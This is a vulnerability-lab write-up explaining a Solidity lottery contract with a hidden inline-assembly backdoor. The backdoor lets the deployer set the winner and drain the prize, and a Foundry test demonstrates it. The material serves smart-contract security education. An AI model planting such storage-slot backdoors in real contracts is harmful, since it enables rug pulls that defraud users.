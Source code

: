 # Hidden Backdoor in Contract 
[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)   
**Name:** Hidden Backdoor in Contract:

**Description:**  
In this contract, an apparently fair 'LotteryGame' contract is subtly designed to allow
a hidden privilege to the contract deployer/administrator.
This is achieved through the use of assembly level access to storage variables,
where a referee function is designed to provide an administrative backdoor.
The 'pickWinner' function appears to randomly pick a winner, but in reality,
it allows the administrator to set the winner.
This bypasses the usual access controls and can be used to drain the prize `pool`
by an unauthorized user, acting as a type of rug pull.

An attacker can manipulate smart contracts as a backdoor by writing inline assembly.
Any sensitive parameters can be changed at any time.
``  
**Scenario:**  
Lottery game: anyone can call pickWinner to get prize if you are lucky.
Refers to JST contract backdoor. many rugged style's contract has similar pattern.
Looks like theres is no setwinner function in contract, how admin can rug?

**LotteryGame** **Contract:**  
```
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            // load admin value at slot 2 of storage
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // admin backddoor which can set winner address
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```
****How to Test:****

forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv

```
// Define a public function named testBackdoorCall
function testBackdoorCall() public {
    // Declare two addresses, alice and bob, and set their values to the addresses retrieved from vm.addr() with IDs 1 and 2, respectively.
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Deploy a new instance of the LotteryGame contract and store the reference in LotteryGameContract variable.
    LotteryGameContract = new LotteryGame();

    // Print a message indicating that Alice is going to call pickWinner function, but she won't actually be the winner.
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // Call the prank function of vm with Alice's address as an argument, implying some manipulation may occur.
    vm.prank(alice);

    // Call the pickWinner function of LotteryGameContract, passing Alice's address as an argument.
    LotteryGameContract.pickWinner(address(alice));

    // Print the current prize of the lottery after the pickWinner function call.
    console.log("Prize: ", LotteryGameContract.prize());

    // Print a message indicating that the admin is going to set the winner to drain out the prize.
    console.log("Now, admin sets the winner to drain out the prize.");

    // Call the pickWinner function of LotteryGameContract again, but this time passing Bob's address as an argument.
    LotteryGameContract.pickWinner(address(bob));

    // Print the address of the winner as manipulated by the admin.
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```
Red box: malicios owner can win the lottery.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc89ca10c-c526-479d-83f5-a7f798142b42%2FUntitled.png?table=block&id=65b900de-4ff0-4ffa-8685-071dd4112db5&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)